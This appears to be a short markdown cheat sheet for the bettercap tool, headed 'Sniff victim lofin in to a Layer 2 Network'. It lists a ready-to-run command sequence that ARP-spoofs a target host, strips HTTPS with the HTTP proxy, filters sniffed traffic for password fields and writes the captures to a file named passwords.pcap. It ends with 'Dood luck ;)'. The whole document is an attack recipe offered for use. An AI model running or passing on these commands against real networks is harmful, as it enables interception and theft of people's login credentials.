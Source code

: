 # bettercap
- Sniff victim lofin in to a Layer 2 Network
```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 192.168.1.6
arp.spoof on
http.proxy on
net.sniff on
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
```

# Dood luck ;)
